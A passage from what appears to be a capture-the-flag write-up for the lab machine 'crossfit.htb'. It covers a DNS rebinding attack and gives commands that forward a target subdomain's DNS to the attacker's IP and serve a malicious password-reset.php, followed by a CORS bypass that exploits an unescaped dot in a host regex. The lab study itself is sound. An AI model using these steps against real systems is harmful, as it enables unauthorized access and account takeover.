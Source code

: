 Save as `password-reset.php` in the www directory.

And execute same [DNS Rebinding](#dns-rebinding) attack. If everything goes well we'll get a extra request that contains signup response.
```bash
unbound-control -c unbound.conf -s 10.10.10.232 forward_add +i ex-exployees.crossfit.htb 10.10.15.71
sudo php -S 0.0.0.0:80
```

![](screenshots/csrf-blocked.png)

After some time get requests from victim but don't get any response of signup.

When debug php file in local browser, found "Cross-Origin Request Blocked"

![](screenshots/CORP-block.png)

### CORS Bypass using host header

from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-implementation-example-2), There is a server misconfiguration scenario where the dot was not escaped correctly. something like this: `^api.example.com$` instead of `^api\.example.com$`. Thus, the dot can be replaced with any letter to gain access from a third-party domain.
